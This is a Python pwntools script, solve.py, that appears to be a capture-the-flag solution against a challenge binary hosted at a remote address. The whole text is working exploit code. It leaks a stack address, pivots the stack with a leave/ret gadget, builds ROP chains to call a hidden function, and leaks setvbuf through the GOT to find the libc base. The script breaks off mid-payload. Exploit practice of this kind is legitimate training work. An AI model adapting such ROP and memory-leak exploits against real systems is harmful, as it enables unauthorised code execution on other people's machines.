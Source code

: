 **solve.py**
```py
from pwn import *

BINARY = "chall"
LIBC = "libc.so.6"

context.binary = BINARY
elf = context.binary
rop = ROP(elf)
libc = ELF(LIBC)

# p = elf.process()
p = remote("34.76.206.46", 10004)

p.sendlineafter(b"Enter a number: ", b"3")

p.recvuntil(b"the number: ")
leak = int(p.recvline().strip())
log.info(f"buffer address -> {hex(leak)}")
log.info(f"hidden level -> {hex(elf.symbols['hidden_level'])}")
log.info(f"setvbuf got -> {hex(elf.got['setvbuf'])}")

payload = flat(
    p64(0),
    p64(rop.find_gadget(["pop rdi", "ret"]).address),
    p64(-0x21524111, sign="signed"),
    p64(elf.symbols["hidden_level"])
)
p.sendlineafter(b"first input please: ", payload)

payload = cyclic(0x70)
payload += p64(leak)
payload += p64(rop.find_gadget(["leave", "ret"]).address)

p.sendlineafter(b"second input please: ", payload)

log.info(f"address for write to print -> {hex(leak+0x140-0x70+0x30)}")

payload =  cyclic(88)
payload += p64(elf.got["setvbuf"])
payload += cyclic(0x70-len(payload))
payload += p64(leak+0x30)
payload += p64(0x400948)
payload += p64(rop.find_gadget(["pop rdi", "ret"]).address)
payload += p64(2)
payload += p64(rop.find_gadget(["pop rdx", "ret"]).address)
payload += p64(8)
payload += p64(elf.plt["write"])
payload += p64(rop.find_gadget(["pop rdi", "ret"]).address)
payload += p64(0xdeadbeef)
payload += p64(elf.symbols["hidden_level"])

p.sendlineafter(b"unlock the hidden door:\n", payload)

setvbuf_leak = p.recvuntil(b"Oooh!")[:-5]
setvbuf_leak = u64(setvbuf_leak.ljust(8, b'\x00'))

log.info(f"setvbuf leak -> {hex(setvbuf_leak)}")
libc_base = setvbuf_leak - libc.symbols["setvbuf"]
log.info(f"libc base -> {hex(libc_base)}")
libc.address = libc_base

payload =  cyclic(0x70+8)
```